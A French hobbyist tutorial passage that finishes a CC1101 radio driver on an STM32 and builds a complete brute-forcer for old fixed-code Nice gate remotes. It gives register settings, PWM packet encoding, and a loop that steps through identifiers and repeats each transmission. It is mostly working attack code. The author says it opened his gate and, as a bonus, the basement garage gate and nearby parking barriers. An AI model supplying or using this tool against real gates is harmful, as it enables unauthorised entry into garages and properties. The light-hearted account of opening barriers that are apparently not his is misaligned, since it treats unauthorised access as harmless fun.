Pour interagir avec le buffer **TX_FIFO**, il suffit d’écrire à son adresse via le bus SPI.

```c
CC1101_WriteData(CC1101_HandleTypeDef *this,
                                          uint8_t *data, uint8_t size) {
  if (!this) {
    return HAL_ERROR;
  }

  HAL_StatusTypeDef status;

  /* status = WriteReg(this, CC1101_TXFIFO, &size, 1); */

  /* if (status == HAL_OK) */
  status = CC1101_WriteReg(this, CC1101_TXFIFO, data, size);

  return status;
}
```

Pour interagir avec le buffer, il suffit de consulter la liste des commandes strobes.



On observe que **SFTX** et **SFRX** permettent respectivement de vider les buffers **TX** et **RX**.

Pour vérifier l'état du CC1101, la documentation recommande de consulter le registre **MARCSTATE**.



Avec cela, nous disposons de tout ce qu'il faut pour envoyer un paquet.

Il suffit de remplir le buffer **RX_FIFO** avec les données, puis de lancer la commande **STX**.
Ensuite, on attend que le buffer se vide en surveillant le registre **MARCSTATE** pour détecter l'état **TX_FIFO_UNDERFLOW**.
Enfin, il est essentiel de s'assurer que le buffer soit correctement vidé avant la prochaine écriture.

En pratique, le CC1101 reste en état **TX_FIFO_UNDERFLOW** trop brièvement pour que cet état puisse être lu via le bus SPI.
En principe, une broche du CC1101 est dédiée à la détection de cet état, mais je ne l'ai pas connectée à mon microcontrôleur.
Ce n'est pas un problème majeur, car on peut simplement vérifier l'état suivant, c'est-à-dire l'état **IDLE**, ce qui garantit que tout fonctionne correctement.

```c
static HAL_StatusTypeDef CC1101_SendPacket(CC1101_HandleTypeDef *this,
                                           uint8_t *buf, uint8_t size) {
  if (!this || !buf) {
    return HAL_ERROR;
  }

  uint8_t state = 0;

  CC1101_WriteData(this, buf, size);

  CC1101_WriteReg(this, CC1101_STX, NULL, 0);

  CC1101_ReadReg(this, CC1101_MARCSTATE, &state, 1);
  while ((state & 0x1F) != 0x01) // Check for IDLE state
    CC1101_ReadReg(this, CC1101_MARCSTATE, &state, 1);

  CC1101_WriteReg(this, CC1101_SFTX, NULL, 0);

  return HAL_OK;
}
```

#### Routine d'initialisation

Enfin, nous définissons une routine d'initialisation pour le CC1101.

Dans cette routine, nous allons simplement appeler notre fonction d'initialisation, vérifier que le CC1101 est en état **IDLE** et que les buffers **TX/RX** sont vides.
De plus, bien que la documentation indique qu'un reset est effectué automatiquement lors de la mise sous tension du composant, nous allons, par précaution, nous assurer que le composant est bien réinitialisé avant toute interaction.

La documentation fournit la procédure suivante pour une réinitialisation manuelle :



Pour résumer, il faut ne rien envoyer sur le bus SPI afin de maintenir **SCLK** à l'état haut et **SI** à l'état bas.
Ensuite, il faut abaisser puis relever le **Chip Select** pendant un total de 40 microsecondes.
Enfin, il suffit d'envoyer la commande **SRES**.

```c
static HAL_StatusTypeDef CC1101_Reset(CC1101_HandleTypeDef *this) {
  if (!this)
    return HAL_ERROR;

  DWT_Init();

  SPI_SELECT;
  DWT_Delay(10);

  SPI_DESELECT;
  DWT_Delay(40 - 10);

  CC1101_WriteReg(this, CC1101_SRES, NULL, 0);
  return HAL_OK;
}
```

Il ne reste plus qu'à rédiger la routine elle-même en appliquant tout ce que nous avons couvert jusqu'à présent.

```c
HAL_StatusTypeDef CC1101_Init(CC1101_HandleTypeDef *this,
                              SPI_HandleTypeDef *hspi, rfSettings *settings) {
  if (!this || !hspi)
    return HAL_ERROR;

  this->hspi = hspi;
  this->SendPacket = CC1101_SendPacket;

  uint8_t version;

  CC1101_Reset(this);

  CC1101_ReadReg(this, CC1101_VERSION, &version, 1);
  if (version != 0x14)
    return HAL_ERROR;

  CC1101_WriteReg(this, CC1101_SIDLE, NULL, 0);

  CC1101_ConfUpdate(this, settings);
  CC1101_WriteReg(this, CC1101_SFRX, NULL, 0);
  CC1101_WriteReg(this, CC1101_SFTX, NULL, 0);

  CC1101_WriteReg(this, CC1101_SIDLE, NULL, 0);
  return HAL_OK;
}
```

Avec tout cela, notre driver est complet. Il ne reste plus qu'à l'utiliser.

### TI SmartRF Studio

La première étape consiste à configurer correctement le driver.
Certains d'entre vous ont peut-être été surpris de ne pas avoir vu d'abstraction pour la partie configuration du CC1101.
En effet, la fonction de configuration nécessite de fournir l'intégralité des registres en paramètres. Ne vous inquiétez pas, il y a une raison à cela.

Pour simplifier la configuration de ses produits, Texas Instruments propose un logiciel appelé **SmartRF Studio**.
Ce logiciel offre une interface graphique qui permet de définir les paramètres radio souhaités et d'exporter la liste des registres à configurer ainsi que leurs valeurs correspondantes.

Pour rappel, nous allons appliquer les paramètres radio que nous avons trouvés pour la télécommande de portail dans l'article précédent.



On entre ces paramètres dans le logiciel :



Le CC1101 semble capable d'envoyer automatiquement des bits de préambule, mais il est limité à un minimum de 2 bits, alors que nous en souhaitons seulement un.
Pour contourner cette limitation, nous désactivons le préambule et l'ajouterons manuellement.

De même, le seul encodage supporté est l'encodage Manchester, tandis que nous devons implémenter un encodage PWM manuellement.

Une fois les paramètres saisis, on clique sur "Register Export" on copiez-colle la liste des registres générée pour compléter la structure de configuration de notre driver.

```c
static void* Nice_CC1101RfSettings()
{
	rfSettings* settings = malloc(sizeof(rfSettings));

	*settings = (rfSettings){
		0x29,  // IOCFG2        GDO2 Output Pin Configuration
		0x2E,  // IOCFG1        GDO1 Output Pin Configuration
		0x06,  // IOCFG0        GDO0 Output Pin Configuration
		0x07,  // FIFOTHR       RX FIFO and TX FIFO Thresholds
		0xD3,  // SYNC1         Sync Word, High Byte
		0x91,  // SYNC0         Sync Word, Low Byte
		NICE_PACKETSIZE,   // PKTLEN        Packet Length
		0x04,  // PKTCTRL1      Packet Automation Control
		0x00,  // PKTCTRL0      Packet Automation Control
		0x00,  // ADDR          Device Address
		0x00,  // CHANNR        Channel Number
		0x06,  // FSCTRL1       Frequency Synthesizer Control
		0x00,  // FSCTRL0       Frequency Synthesizer Control
		0x10,  // FREQ2         Frequency Control Word, High Byte
		0xB0,  // FREQ1         Frequency Control Word, Middle Byte
		0x71,  // FREQ0         Frequency Control Word, Low Byte
		0xF5,  // MDMCFG4       Modem Configuration
		0xE9,  // MDMCFG3       Modem Configuration
		0x30,  // MDMCFG2       Modem Configuration
		0x20,  // MDMCFG1       Modem Configuration
		0x00,  // MDMCFG0       Modem Configuration
		0x15,  // DEVIATN       Modem Deviation Setting
		0x07,  // MCSM2         Main Radio Control State Machine Configuration
		0x30,  // MCSM1         Main Radio Control State Machine Configuration
		0x18,  // MCSM0         Main Radio Control State Machine Configuration
		0x16,  // FOCCFG        Frequency Offset Compensation Configuration
		0x6C,  // BSCFG         Bit Synchronization Configuration
		0x03,  // AGCCTRL2      AGC Control
		0x40,  // AGCCTRL1      AGC Control
		0x91,  // AGCCTRL0      AGC Control
		0x87,  // WOREVT1       High Byte Event0 Timeout
		0x6B,  // WOREVT0       Low Byte Event0 Timeout
		0xF8,  // WORCTRL       Wake On Radio Control
		0x56,  // FREND1        Front End RX Configuration
		0x11,  // FREND0        Front End TX Configuration
		0xE9,  // FSCAL3        Frequency Synthesizer Calibration
		0x2A,  // FSCAL2        Frequency Synthesizer Calibration
		0x00,  // FSCAL1        Frequency Synthesizer Calibration
		0x1F,  // FSCAL0        Frequency Synthesizer Calibration
		0x41,  // RCCTRL1       RC Oscillator Configuration
		0x00,  // RCCTRL0       RC Oscillator Configuration
		0x59,  // FSTEST        Frequency Synthesizer Calibration Control
		0x7F,  // PTEST         Production Test
		0x3F,  // AGCTEST       AGC Test
		0x81,  // TEST2         Various Test Settings
		0x35,  // TEST1         Various Test Settings
		0x09,  // TEST0         Various Test Settings
		{0x00,0xc0,0x00,0x00,0x00,0x00,0x00,0x00}, // PA Table
	};

	return (void*)(settings);
}
```

### Développement de l'application

Le plus gros du travail est accompli.
Maintenant que le code pour notre matériel est terminé, il est temps de passer au développement de la logique de notre bruteforceur.

L'application se divise en trois parties : le transmetteur radio (ici le CC1101), l'implémentation de la télécommande cible (de marque **Nice** dans ce cas), et enfin la génération de paquets.
Pour cette dernière, je souhaite offrir la possibilité de générer des paquets automatiquement pour le bruteforce, ainsi que de permettre la génération manuelle de paquets.

Nous définissons donc l'interface suivante :

```c
typedef enum remoteModuleType_e { NICE, REMOTE_MODULE_MAX } remoteModuleType;

typedef enum tranceivers_e { CC1101, TRANCEIVER_MAX } tranceivers;

// Module Interface
typedef struct remoteModule_s {
  void (*Destructor)(struct remoteModule_s *);
  void *(*GetRfSettings)(struct remoteModule_s *);
  void *(*AutoGeneratePacket)(struct remoteModule_s *, uint32_t, uint8_t *,
                              size_t);
  void *(*GeneratePacket)(struct remoteModule_s *, uint32_t *, size_t,
                          uint8_t *, size_t);

  void *this;
} remoteModule;

typedef void (*remoteModuleFactory)(remoteModule *, tranceivers);

void InitRemoteModule(remoteModule *, remoteModuleType, tranceivers);
```

- **GetRfSettings** récupérera les paramètres radio spécifiques à la télécommande cible.
- **AutoGeneratePacket** permettra de générer automatiquement un paquet pour le bruteforce.
- **GeneratePacket**, quant à lui, permettra de générer un paquet manuellement.

Il ne reste plus qu'à développer le module qui implémentera la télécommande.

#### Module de ma telecommande Nice

Comme nous l'avons vu lors de l'analyse radio, un paquet de ma télécommande Nice se compose de deux champs : un code identifiant de 10 bits et un champ représentant les 4 canaux disponibles, codé sur 2 bits.
À cela s'ajoute le type de transmetteur utilisé, ce qui permet de générer les paramètres radio appropriés.
Pour l'instant, nous n'avons implémenté qu'un seul transmetteur, le CC1101, mais cette structure sera utile si nous souhaitons en ajouter d'autres à l'avenir.

```c
typedef enum niceField_e { ID, CHANNEL } niceField;

typedef struct niceModule_s {
  tranceivers tranceiver;
  uint16_t id;
  uint8_t channel;
} niceModule;

void Nice_Init(remoteModule *, tranceivers);
```

Ensuite, nous implémentons les fonctions du module.

##### GetRfSettings

Nous avons déjà réalisé l'essentiel du travail pour cette fonction avec **Nice_CC1101RfSettings**.
Pour cette étape, nous faisons simplement appel à **Nice_CC1101RfSettings**, tout en prévoyant la possibilité d'ajouter d'autres transmetteurs à l'avenir, en plus du CC1101.

```c
void* Nice_GetRfSettings(remoteModule* super)
{
	CHECK_OBJ NULL; // Simply check is super is accessible and returns NULL id it isn't.

	static void*(*factory[TRANCEIVER_MAX])() = { Nice_CC1101RfSettings };

	niceModule* this = (niceModule*)(super->this);

	return factory[this->tranceiver]();
}
```

##### GeneratePacket

Pour générer un paquet valide, nous devons d'abord compenser les limitations du CC1101, à savoir l'incapacité de générer le bit de préambule et d'encoder le message en PWM.

Pour l'encodage, il suffit de transformer les '1' en '011' et les '0' en '001'.

```c
#define PWM_TRUE 0b011
#define PWM_FALSE 0b001

#define SET_BIT_ARRAY(out, index, value)                                       \
  (out[((index) - ((index) % 8)) / 8] |= (value & 1) << (7 - ((index) % 8)))

static void PWM_Encode(uint8_t *in, uint8_t *out, size_t size_in) {
  for (size_t i = 0; i < size_in; i++) {
    for (int8_t b = 0; b < 8; b++) {
      if (in[i] & (1 << (7 - b))) {
        SET_BIT_ARRAY(out, (i * 8 + b) * 3, (PWM_TRUE & 0b100) >> 2);
        SET_BIT_ARRAY(out, (i * 8 + b) * 3 + 1, (PWM_TRUE & 0b010) >> 1);
        SET_BIT_ARRAY(out, (i * 8 + b) * 3 + 2, (PWM_TRUE & 0b001));
      } else {
        SET_BIT_ARRAY(out, (i * 8 + b) * 3, (PWM_FALSE & 0b100) >> 2);
        SET_BIT_ARRAY(out, (i * 8 + b) * 3 + 1, (PWM_FALSE & 0b010) >> 1);
        SET_BIT_ARRAY(out, (i * 8 + b) * 3 + 2, (PWM_FALSE & 0b001));
      }
    }
  }
}
```

Ensuite, nous ajoutons le bit de préambule.

```c
static void Nice_ReformatPacket(uint8_t *pwm_data) {
  uint8_t tmp;
  uint8_t tmp2;

  // Adding manual 1 bit preamble
  tmp = pwm_data[0] & 1;
  pwm_data[0] = (pwm_data[0] >> 1) | (1 << 7);
  for (uint8_t i = 1; i < NICE_PACKETSIZE; i++) {
    tmp2 = pwm_data[i] & 1;
    pwm_data[i] = (pwm_data[i] >> 1) | (tmp << 7);
    tmp = tmp2;
  }

  // Triming useless bits
  pwm_data[4] &= (0xFF << 2);
}
```

Enfin, nous plaçons l'identifiant et le canal dans un buffer, sur lequel nous appliquons nos deux fonctions pour obtenir un paquet valide.

```c
#define NICE_PACKETSIZE 5
#define PWM_SIZE 3

/* Packet must be  5 bytes long */
static void Nice_MakePacket(niceModule *this, uint8_t *packet) {
  uint8_t data[2] = {
      (uint8_t)(this->id >> 2),
      (uint8_t)(((this->id & 0b11) << 6) | ((this->channel & 0b11) << 4))};
  uint8_t data_encode[2 * PWM_SIZE] = {0};

  PWM_Encode(data, data_encode, 2);
  Nice_ReformatPacket(data_encode);

  for (size_t i = 0; i < NICE_PACKETSIZE; i++)
    packet[i] = data_encode[i];
}

static void *Nice_GeneratePacket(remoteModule *super, uint32_t *packet_fields,
                                 size_t packet_fields_size, uint8_t *packet,
                                 size_t size) {
  CHECK_OBJ NULL;
  if ((packet_fields_size > 2) || (size < NICE_PACKETSIZE))
    return NULL;

  niceModule *this = (niceModule *)(super->this);

  this->id = (uint16_t)(packet_fields[0]);
  this->channel = (uint8_t)(packet_fields[1]);

  Nice_MakePacket(this, packet);
  return packet;
}
```

Nous testons avec l'identifiant 01000111011 et le canal 01 :


Voici le résultat : il est satisfaisant et fonctionne parfaitement avec ma porte de garage !

##### Nice_AutoGeneratePacket

Maintenant, nous pouvons automatiser ce processus pour bruteforcer d'autres télécommandes similaires.
Pour ce faire, il suffit d'incrémenter le champ à bruteforcer jusqu'à ce que la porte s'ouvre.

```c
static void *Nice_AutoGeneratePacket(remoteModule *super, uint32_t field,
                                     uint8_t *packet, size_t size) {
  CHECK_OBJ NULL;
  if (size < NICE_PACKETSIZE)
    return NULL;

  niceModule *this = (niceModule *)(super->this);

  if (field == ID) {
    this->id = (this->id + 1) % NICE_MAX_ID;
  } else if (field == CHANNEL) {
    this->channel = (this->channel + 1) % NICE_MAX_CHANNEL;
  }

  Nice_MakePacket(this, packet);
  return packet;
}
```

Cependant, un petit problème s'est posé : en testant, j'ai constaté que le récepteur du portail nécessite d'entendre le message radio plusieurs fois avant de le détecter correctement.
Ce phénomène se produit aussi avec ma télécommande, où je dois maintenir le bouton enfoncé pendant quelques secondes avant que la commande soit reconnue.

Nous réglons ce problème en envoyant le message plusieurs fois.

```c
int main(void) {
  HAL_Init();

  SystemClock_Config();

  MX_GPIO_Init();
  MX_SPI2_Init();
  MX_USB_DEVICE_Init();

  CC1101_HandleTypeDef hcc1101;
  remoteModule remote;
  uint8_t packet[NICE_PACKETSIZE];

  InitRemoteModule(&remote, NICE, CC1101);
  rfSettings *settings = remote.GetRfSettings(&remote);
  CC1101_Init(&hcc1101, &hspi2, settings);
  S_FREE(settings);

  niceModule *nice = (niceModule *)(remote.this);
  /* nice->id = 0b0100011101; */
  nice->channel = 2;

  uint32_t data[2] = {0b0100011101, 2};
  while (1) {
    remote.AutoGeneratePacket(&remote, ID, packet, sizeof(packet));
    /* remote.GeneratePacket(&remote, data, 2, packet, sizeof(packet)); */

    for (uint32_t i = 0; i < 20; i++) // We have to send the message mutliple time for it to be detected
      hcc1101.SendPacket(&hcc1101, packet, NICE_PACKETSIZE);
  }
}
```

# Conclusion

Me voici donc chez moi, à 23h30, assis à côté de mon portail pour tester le bruteforce de son identifiant. Après seulement deux minutes d'attente, mon portail s'ouvre !

En bonus, le bruteforce du canal m'a permis d'ouvrir le portail de mon garage en sous-sol ainsi que les barrières du parking devant chez moi. :p

On peut constater que ces anciennes télécommandes de garage ne sont pas très sécurisées.
Heureusement, les télécommandes plus récentes intègrent généralement un code tournant (rolling code) pour compliquer le brute-force. Cependant, bien que ces modèles soient plus sécurisés, ils ne sont pas exempts de vulnérabilités.

J'espère que cet article vous aura appris quelques choses et vous aura donné envie d'explorer davantage ce qu'il est possible de réaliser avec des microcontrôleurs à des prix très abordables !
